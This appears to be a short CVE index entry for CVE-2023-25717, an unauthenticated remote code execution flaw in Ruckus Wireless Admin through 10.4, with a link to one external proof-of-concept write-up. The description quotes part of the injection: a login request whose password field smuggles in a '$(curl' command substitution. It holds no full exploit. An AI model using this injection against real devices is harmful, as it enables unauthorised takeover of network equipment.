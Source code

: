 ### [CVE-2023-25717](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-25717)
![](https://img.shields.io/static/v1?label=Product&message=n%2Fa&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=n%2Fa&color=blue)
![](https://img.shields.io/static/v1?label=Vulnerability&message=n%2Fa&color=brighgreen)

### Description

Ruckus Wireless Admin through 10.4 allows Remote Code Execution via an unauthenticated HTTP GET Request, as demonstrated by a /forms/doLogin?login_username=admin&password=password$(curl substring.

### POC

#### Reference
- https://cybir.com/2023/cve/proof-of-concept-ruckus-wireless-admin-10-4-unauthenticated-remote-code-execution-csrf-ssrf/

#### Github
No PoCs found on GitHub currently.

